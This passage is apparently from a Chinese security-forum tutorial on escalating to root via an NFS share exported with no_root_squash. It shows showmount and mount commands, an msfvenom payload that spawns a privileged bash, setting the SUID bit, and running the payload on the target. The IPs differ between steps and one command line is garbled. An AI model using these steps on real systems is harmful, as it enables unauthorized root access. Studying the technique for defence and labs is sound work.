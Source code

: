 实操
--

### 1.检查 /etc/exports 的内容，了解具有no\_root\_squash选项的配置：

```php
cat /etc/exports 
```

![image-20210701183617720](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5e0949f7cb9b3737bec929c764eed7dd76215df3.png)

### 2.确认NFS 共享可用于远程安装：

```php
showmount -e 192.168.1.25 
```

![image-20210701183702574](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-48d607aebb1a35b6753388e479510775600ff806.png)

### 3.在kali上创建一个文件夹，并安装/tmp NFS共享：

```php
mkdir /tmp/nfs 

mount -o rw,vers=2 192.168.175.228:/tmp /tmp/nfs
```

![image-20210701183905563](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-27c5aef785f64f3d2804f13021199d2af9340dac.png)

### 4.使用kali上的root用户生成有效载荷并将其保存到安装的共享中：

```php
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

![image-20210701184010960](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a138fb44a890fcfd0b64c0c327c60270e31e985f.png)

### 5.确保文件具有 SUID 位集，并且每个用户都可执行：

```php
chmod +xs /tmp/nfs/shell.elf
```

![image-20210701184121840](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2f4df8db8ce5609b60ae6ae6fe38dfb0dc3b6d50.png)

### 6.在目标机器上，执行文件以获取root：

```php
/tmp/shell.elf bash-4.1
```

![image-20210701184058216](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b2484c059a126bbf96507cdd6a4efe5a11c604b4.png)

权限提升总结
------
